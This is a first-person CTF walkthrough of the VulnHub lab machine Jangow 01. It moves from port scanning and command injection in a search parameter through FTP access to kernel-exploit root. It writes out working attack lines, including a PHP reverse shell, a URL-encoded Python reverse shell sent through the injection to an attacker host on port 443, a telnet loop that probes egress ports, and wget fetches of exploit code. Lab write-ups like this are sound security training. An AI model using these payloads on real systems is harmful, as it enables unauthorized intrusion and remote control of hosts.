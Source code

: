 ```yaml
---
title: "Jangow 01 -VulnHub"
date: 2025-04-22 14:00:00 +0200
categories: [VulnHub, Linux]
tags: [Kernel-exploits, priv-escalation, rooted , command-injection, jangow01]
toc: true
comments: true
image: ./assets/img/attachments/jangow.png
imageNameKey: jangow
---
```

Yo! Back again with another VulnHub walkthrough — this time we’re diving into _Jangow: 01_. Let’s get rootin’! 💥
This is my second writeup 2/1000
## Recon

![w](/assets/img/attachments/jangow-1.png)

First step was making sure that the machine is reachable, lets START.
Now, As always we'll run an Nmap scan on all ports to see which services are exposed — this will help us decide where to dig deeper.

`sudo masscan -p1-65535 192.168.56.118`

![w](/assets/img/attachments/jangow-2.png)

Then we will use nmap to do full scan on those two open ports

`nmap 192.168.56.118 -Pn -sV -sC -p80,21`
![w](/assets/img/attachments/jangow-3.png)
![w](/assets/img/attachments/jangow-4.png)
![w](/assets/img/attachments/jangow-5.png)

This how the website looked like, after taking a deep look on the functionality of this website and when i clicked on buscar i found this 
## Exploiting vulnerability

![w](/assets/img/attachments/jangow-6.png)
![w](/assets/img/attachments/jangow-7.png)

Command Injection!

![w](/assets/img/attachments/jangow-8.png)

After some investigation and enumeration, I discovered a file that initially appeared to contain the user's password. However, it didn’t work for login, so I assumed it might just be the user flag instead.
I then attempted to gain a reverse shell by setting up a listener on my machine, but none of the payloads I tried were successful. 
So, I decided to go back to discover more files on the machine. I ran web content discovery from the beginning using

`ffuf -u http://192.168.56.118/FUZZ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -recursion -recursion-depth 2
`
![w](/assets/img/attachments/jangow-9.png)

I couldn't access the content of the file directly, but since there is a command injection vulnerability, I plan to open the file from there.
Got nothing from the browser (I think the file is being rendered)

![w](/assets/img/attachments/jangow-10.png)
![w](/assets/img/attachments/jangow-11.png)

But curl got it, now i will try to gain access with password using ftp (the second open port)
## Initial Access

![w](/assets/img/attachments/jangow-12.png)
I tried both usernames and i logged in with jangow01 !
Since I have access to FTP, I will try to get a shell to proceed to the next step. To do this, I attempted to see if I can upload files to the directory I'm currently in.

![w](/assets/img/attachments/jangow-13.png)

I couldn't, so i thought of changing the directory I'm currently in to /home/jangow01

![w](/assets/img/attachments/jangow-14.png)

And it was uploaded successfully!

```php
<?php
$sock=fsockopen("192.168.246.128",4444);
exec("/bin/sh -i <&3 >&3 2>&3");
?>
```
I tried to upload this shell and trigger it buy running curl command

`curl "http://192.168.56.118/site/busque.php?buscar=php+/home/jangow01/shell.php"`

But it didn't work. I troubleshot the file I uploaded before.
![w](/assets/img/attachments/jangow-15.png)

And couldn't view its content

![w](/assets/img/attachments/jangow-16.png)

Maybe that’s why PHP couldn’t open the file. To solve this, I granted it read and execute permissions.

`chmod 755 /home/jangow01/shell.php`

![w](/assets/img/attachments/jangow-17.png)

Even though, I didn't got the shell, I tried several methods but couldn't get it. 
I tested if i opened http server on my machine would the target machine send any requests to me

`http://192.168.56.118/site/busque.php?buscar=wget+http:/192.168.246.128:8000/hello.txt`

I didn't receive any connection, so I believe there's a firewall blocking outgoing connections — which is likely why I wasn't able to get a reverse shell. Now, I need to identify which ports are not blocked. I used the following script to test that:
```python
# listener.py

import socket

import threading

  

ports = [21, 22, 23, 25, 53, 80, 110, 139, 143, 161, 443, 587, 993, 995, 3306, 3389]

  

def handle_conn(port):

    sock = socket.socket()

    sock.bind(("0.0.0.0", port))

    sock.listen(1)

    print(f"[+] Listening on port {port}")

    conn, addr = sock.accept()

    print(f"[!] Connection received on port {port} from {addr}")

    conn.close()

    sock.close()

  

for port in ports:

    threading.Thread(target=handle_conn, args=(port,), daemon=True).start()

  

input("Press Enter to exit...\n")
```

The script uses threading to start listeners on the most commonly guessed outbound ports. On the vulnerable parameter, we initiate these connections using `telnet` with the following payload:

`http://192.168.56.118/site/busque.php?buscar=echo%20%27QUIT%27%20|%20for%20i%20in%20$(seq%201%201024);%20do%20echo%20%22Porta%20$i%20==%3E%22;%20timeout%20--signal=9%202%20telnet%20192.168.56.1%20$i;echo%20%22Port%20$i%20%3C==%22;%20done;`

decoded:
`http://192.168.56.118/site/busque.php?buscar=echo 'QUIT' | for i in $(seq 1 1024); do echo "Porta $i ==>"; timeout --signal=9 2 telnet 192.168.56.1 $i; echo "Port $i <=="; done;`

and then we got this!

![w](/assets/img/attachments/jangow-18.png)

Which tell us that port 443 isn't blocked for outgoing traffic by the firewall, by running 
`which python3`
![w](/assets/img/attachments/jangow-19.png)

I confirmed python3 is installed, next i used this reverse shell command

`http://192.168.56.118/site/busque.php?buscar=/usr/bin/python3%20-c%20%27import%20socket;%20import%20subprocess;%20import%20os;%20s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);%20s.connect((%22192.168.56.1%22,443));%20os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);%20subprocess.call([%22/bin/bash%22,%20%22-i%22])%27`

![w](/assets/img/attachments/jangow-20.png)

And voilà! We got a connection. 🎉
## Privilege Escalation
we’ll start gathering information about the system itself, beginning with displaying detailed system information. But while doing this manually i will run linpeas at the background

`uname -a `

![w](/assets/img/attachments/jangow-21.png)

![w](/assets/img/attachments/jangow-22.png)

Upon researching the version, a known vulnerability was identified that could potentially be exploited.

![w](/assets/img/attachments/jangow-23.png)

linpeas output too

![w](/assets/img/attachments/jangow-24.png)

Now i will upload the exploit to the machine using the same python server.

`http://192.168.56.118/site/busque.php?buscar=wget+http://ip:443/47170.c`

![w](/assets/img/attachments/jangow-25.png)

After making sure that gcc is installed, will compile the exploit

`gcc 47170.c -o exploit`

![w](/assets/img/attachments/jangow-26.png)

I moved to /tmp since i didn't have the write permission on /site directory

![w](/assets/img/attachments/jangow-27.png)

It's Ok 😢, we will try another exploit

![w](/assets/img/attachments/jangow-28.png)

Will go with this one, 

![w](/assets/img/attachments/jangow-29.png)

![w](/assets/img/attachments/jangow-30.png)

And Finallyyy!! rooted!

![w](/assets/img/attachments/jangow-31.png)

Rooted it. Another one bites the dust. 🏴‍☠️ see u soon!
